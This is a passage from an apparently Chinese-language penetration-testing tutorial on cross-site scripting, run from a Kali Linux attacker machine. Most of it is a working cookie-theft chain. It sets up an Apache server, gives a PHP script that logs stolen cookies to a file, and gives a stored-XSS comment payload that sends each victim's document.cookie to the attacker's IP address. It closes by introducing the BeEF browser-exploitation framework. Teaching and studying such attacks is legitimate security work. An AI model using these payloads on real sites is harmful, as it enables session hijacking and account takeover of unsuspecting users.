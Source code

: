 ```txt
攻击1 弹框告警∶ 渗透机 kali Linux 端操作
	text1
	<script>alert('yangge')</script>

攻击2 获取cookie: 渗透机 Kali Linux端操作
	1. 构建收集cookie服务器
	2. 构造XSS代码并植入到Neb服务器
	3. 等待肉鸡触发xSS代码并将cookie发送到Kali
	4.Cookie利用
```

**获取用户cookie**

在kali打开apache服务

```linux
systemctl start apache2
```

新建一个存放cookie的php文件

vim /var/www/html/cookie_rec.php

> ==cookie_rec.php==

```php
<?php
    $cookie = $_GET['cookie'];
	$log = fopen("cookie.txt","a");
	fwrite($log,$cookie ."\n");
	fclose($log);
?>
```

> ==开启文件权限 用来接收cookie==

```linux
chown -R www-data.www-data /var/www/
```

> ==植入评论的病毒==

```html
<script>window.open('http://192.168.44.141/cookie_rec.php?cookie='+document.cookie)</script>
<!--注意更改为自己攻击机服务器的地址-->
```

> ==成功植入，查看用户cookie==

![7-4](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210908215751.png)



#### 6、自动注入XSS

##### 6.1、BeEF简介

**Browser Exploitation Framework (BeEF)**
BeEF是目前最强大的浏览器开源渗透测试框架，通过XSS漏洞配合JS脚本和Metasploit进行渗透；
BeEF是基于Ruby语言编写的，并且支持图形化界面，操作简单；
http://beefproject.com/
